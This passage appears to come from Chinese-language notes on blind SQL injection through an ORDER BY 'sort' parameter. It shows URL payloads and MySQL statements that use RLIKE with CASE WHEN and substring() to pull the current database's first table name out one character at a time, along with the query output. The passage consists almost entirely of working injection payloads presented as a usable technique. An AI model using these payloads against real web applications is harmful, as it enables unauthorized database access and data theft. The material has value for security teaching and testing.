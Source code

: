LIMIT 1,1 修改为1 就是出2表



```plain
// 演示数据
mysql> SELECT table_name FROM information_schema.tables where table_schema=database() LIMIT 0,1;
+------------+
| table_name |
+------------+
| tdb_admin  |
+------------+
1 row in set (0.00 sec)
```



web语句: http://www.test.com/sql.php?sort=1 RLIKE (CASE WHEN (substring((SELECT table_name FROM information_schema.tables where table_schema=database() LIMIT 0,1),1,1)='t') THEN 1 ELSE 0x28 END)



数据库语句-读取当前库的第一张表名的第一个字: select * from test order by 1 RLIKE (CASE WHEN (substring((SELECT table_name FROM information_schema.tables where table_schema=database() LIMIT 0,1),1,1)='t') THEN 1 ELSE 0x28 END);



```plain
mysql> select * from test order by 1 RLIKE (CASE WHEN (substring((SELECT table_name FROM information_schema.tables where table_schema=database() LIMIT 0,1),1,1)='t') THEN 1 ELSE 0x28 END);
+----+------+------+---------+
| id | test | map  | content |
+----+------+------+---------+
|  1 | 1    | 1    | 1       |
|  2 | 2    | 2    | 2       |
|  3 | 3    | 3    | 3       |
+----+------+------+---------+
3 rows in set (0.00 sec)
```



数据库语句-读取当前库的第一张表名的第二个字: select * from test order by 1 RLIKE (CASE WHEN (substring((SELECT table_name FROM information_schema.tables where table_schema=database() LIMIT 0,1),2,1)='d') THEN 1 ELSE 0x28 END);



```plain
mysql> select * from test order by 1 RLIKE (CASE WHEN (substring((SELECT table_name FROM information_schema.tables where table_schema=database() LIMIT 0,1),2,1)='d') THEN 1 ELSE 0x28 END);
+----+------+------+---------+
| id | test | map  | content |
+----+------+------+---------+
|  1 | 1    | 1    | 1       |
|  2 | 2    | 2    | 2       |
|  3 | 3    | 3    | 3       |
+----+------+------+---------+
3 rows in set (0.00 sec)
```
